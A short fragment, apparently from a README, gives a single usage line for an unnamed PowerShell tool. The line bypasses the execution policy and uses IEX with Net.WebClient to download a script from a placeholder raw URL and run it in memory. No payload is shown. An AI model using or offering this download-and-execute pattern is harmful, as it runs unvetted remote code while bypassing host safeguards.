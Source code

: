 # Use

```powershell
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘<RAW URL>')”
```
